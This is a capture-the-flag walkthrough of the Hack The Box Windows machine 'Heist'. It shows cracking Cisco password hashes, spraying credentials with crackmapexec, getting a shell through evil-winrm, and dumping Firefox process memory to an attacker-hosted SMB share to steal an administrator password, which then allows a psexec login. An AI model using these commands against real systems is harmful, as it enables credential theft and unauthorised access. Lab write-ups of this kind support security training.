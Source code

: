 # Heist
A Windows box that abuses data exposure and misconfiguration to gain access, then extensive enumeration to escalate privileges.

![Heist](../Images/htb_heist_1.png)

**Tools: nmap, ciscot7, john, hashcat, crackmapexec, rpcclient, evil-winrm, Sysinternals (procdump), Impacket (lookupsid.py, smbserver.py, psexec.py).**

We begin with the nmap scan:  
`nmap -sC -sV -Pn 10.10.10.149`

![Heist](../Images/htb_heist_2.png)

We can see a few open ports, let's take a look at the webpage (http port 80):

![Heist](../Images/htb_heist_3.png)

There's a login page, but we don't have any credentials yet. We can try the 'Login as guest' option below the login form.

![Heist](../Images/htb_heist_4.png)

We're redirected to a 'Issues' page. We can take a look at the 'Attachment' in there, but also there are some possibly useful usernames in this page, so take note.

![Heist](../Images/htb_heist_5.png)

In the attachment we can see a bunch of Cisco ios configs. We can see that there are 3 hashes, and after doing some research, we can clearly see that these are Cisco type 5 (MD5) and type 7 (Vigenère cipher) password hashes.  
https://community.cisco.com/t5/networking-documents/understanding-the-differences-between-the-cisco-password-secret/ta-p/3163238  
https://www.infosecmatter.com/cisco-password-cracking-and-decrypting-guide/  
For the type 5 hash (the first on the list), we can use either hashcat or john, with the rockyou wordlist - you can either save it to a file like hash.txt or paste the hash between single quotes ' ':  
```
john --format=md5crypt --fork=4 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt  
hashcat -m 500 '$1$pdQG$o8nrSzsGXeaduXrjlvKc91' /usr/share/wordlists/rockyou.txt
```

![Heist](../Images/htb_heist_6.png)

The type 7 (the other 2 hashes) can be cracked using an online tool or downloading the ciscot7 tool (both below):  
https://www.ifm.net.nz/cookbooks/passwordcracker.html  
https://github.com/theevilbit/ciscot7  

We end up with the following passwords:  
$uperP@ssword  
Q4)sJu\Y8qz\*A3?d  
stealth1agent  

Now we can try to validate the credentials with crackmapexec's smb module, because port 445 is open. First of all, save the 3 passwords in a file and in another file we can save some usernames like the ones we've seen before (hazard, admin, support, supportadmin...). We could alternatively use Metasploit's auxiliary/scanner/smb/smb_login module for this.  
`crackmapexec smb 10.10.10.149 -u users.txt -p passwords.txt --shares`

![Heist](../Images/htb_heist_7.png)

We are able to find a match, but we don't have valid share permissions. Next up, we can use crackmapexec once again with the winrm (Windows Remote Management) module.  
`crackmapexec winrm 10.10.10.149 -u hazard -p stealth1agent`

![Heist](../Images/htb_heist_8.png)

Once again, we don't have the necessary permissions. We could try using the rid-brute module to brute-force the users' SID/RID.  
https://www.itprotoday.com/security/q-what-are-exact-roles-windows-accounts-sid-and-more-specifically-its-rid-windows-security  
`crackmapexec smb 10.10.10.149 -u hazard -p stealth1agent --rid-brute`

![Heist](../Images/htb_heist_9.png)

As an alternative, we could run Impacket's lookupsid.py and rpcclient to gather the SIDs:  
```
lookupsid.py 'hazard:stealth1agent'@10.10.10.149  
rpcclient -U 'hazard%stealth1agent' 10.10.10.149  
lookupnames administrator
```

Now we can make a new 'users' list with the usernames 'Chase' and 'Jason', then run the smb module again.  
`crackmapexec smb 10.10.10.149 -u more_users.txt -p passwords.txt --shares`

![Heist](../Images/htb_heist_10.png)

We're able to find a match with the user 'Chase'. Still, this one also doesn't have access to the shares, but we can try with winrm:  
`crackmapexec winrm 10.10.10.149 -u Chase -p 'Q4)sJu\Y8qz*A3?d'`

![Heist](../Images/htb_heist_11.png)

Great, we have access to winrm. To exploit that, we can use evil-winrm.  
`git clone https://github.com/Hackplayers/evil-winrm.git`

Inside the evil-winrm folder there's the 'Gemfile', we can read it and then run a 'gem install' to download and install all the dependencies.

![Heist](../Images/htb_heist_12.png)

Now we can run evil-winrm:  
`ruby evil-winrm.rb -i 10.10.10.149 -u Chase -p 'Q4)sJu\Y8qz*A3?d'`

![Heist](../Images/htb_heist_13.png)

Good, we have a shell. If we navigate to Chase's desktop, we can find the 'user.txt' with the user flag, and a 'todo.txt' file.

![Heist](../Images/htb_heist_14.png)

The file shows a list of 'stuff to-do', and the first one mentions 'keep checking the issues list'. If we enumerate further the machine, we can find a 'Firefox' folder, so this could mean that the user has Firefox constantly open to check for new issues. We can call the 'Get-Process' to see the running processes:

![Heist](../Images/htb_heist_15.png)

So there it is, Firefox is open indeed. We can use Microsoft sysinternals' procdump to generate a memory dump file of the process. Simply download the tool in your machine and upload the .exe to the target:  
https://docs.microsoft.com/en-us/sysinternals/downloads/procdump  

![Heist](../Images/htb_heist_16.png)

Now run procdump (in one of Chase's folders, because outside those you won't have Write permission) and provide the PID of Firefox (run 'Get-Process' again if needed), I normally select the process with the most memory in use.

![Heist](../Images/htb_heist_17.png)

Now we can either run 'download firefox.exe_blabla.dmp' (might take a long time) or use Impacket's smbserver.py to create a new share in our machine. Choose a folder to host the share (in my case /root/Downloads), then run the command, with guest user and password:  
`smbserver.py -smb2support -username guest -password guest share /root/Downloads`

![Heist](../Images/htb_heist_18.png)

Now in another terminal window, back to evil-winrm, run the following, using your tun0 VPN IP:  
```
net use x:\10.10.your.IP\share /user:guest guest  
cmd /c "copy firefox.exe_blabla.dmp X:\"
```

![Heist](../Images/htb_heist_19.png)

Now in your machine, run a strings/grep/less command, then inside less use '/password' to highlight the words.

![Heist](../Images/htb_heist_20.png)

We can see a username 'admin@support.htb' and a password for that user (everything between the password= and the &login).

![Heist](../Images/htb_heist_21.png)

We can run crackmapexec again to check our permissions:  
`crackmapexec smb 10.10.10.149 -u administrator -p '4dD!5}x/re8]FBuZ' --shares`

![Heist](../Images/htb_heist_22.png)

Sure thing. Now we can simply use Impacket's psexec.py now and login using the credentials:  
`psexec.py administrator@10.10.10.149`

![Heist](../Images/htb_heist_23.png)

Then navigate to the Administrator's desktop and grab the root flag!  

**That's all for this box.**  
Thanks for reading and keep hacking!
